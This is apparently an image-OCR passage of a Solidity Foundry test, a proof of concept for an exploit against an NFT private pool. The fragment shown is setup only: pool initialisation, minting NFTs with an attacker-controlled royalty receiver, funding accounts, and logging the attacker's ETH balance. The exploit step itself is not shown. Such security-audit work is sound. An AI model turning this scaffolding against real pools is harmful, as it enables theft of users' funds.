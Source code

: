 ```solidity
            address(stolenNftOracle)
        );

        // Initialize pool instance.
        privatePool.initialize(
            address(0),
            address(nft),
            VIRTUAL_BASE_TOKEN_RESERVES,
            VIRTUAL_NFT_RESERVES,
            0,
            0,
            MERKLE_ROOT,
            false,
            true
        );
    }

    /**
     * @notice Simulates deposits of 5 NFTs to the private pool.
     * @param _targetTokenId The specific NFT that will be
     * used by the attacker to perform the exploit.
     */
    function _depositNFTs(uint256 _targetTokenId) internal {
        for (uint256 i = 0; i < 5; i++) {
            // Mint NFTs directly to the Pool to make setup easier.
            nft.mint{value: 1 ether}(
                address(privatePool),
                i == _targetTokenId ? receiver : vm.addr(type(uint64).max), // Set the attacker/royalty receiver account to the passed token only.
                uint96(10)
            );
        }
    }

    /**
     * @notice Funds ETH to the accounts that will need native tokens for this test case.
     */
    function _fundEth() internal {
        vm.deal(address(privatePool), VIRTUAL_BASE_TOKEN_RESERVES);
        vm.deal(receiver, 100e18);
    }

    /**
     * @notice Logs the current state to show the exploit status in the terminal.
     */
    function _logState(string memory state) internal view {
        console.log("");
        console.log("==========================================");
        console.log(state);
        console.log("==========================================");
        console.log(
            string.concat(
                " | Attacker balance:            ",
                string.concat(
                    Strings.toString(receiver.balance / 1e18),
                    ".",
                    Strings.toString((receiver.balance % 1e18) / 1e17)
                ),
                " ETH"
            )
        );
        console.log(
            string.concat(
```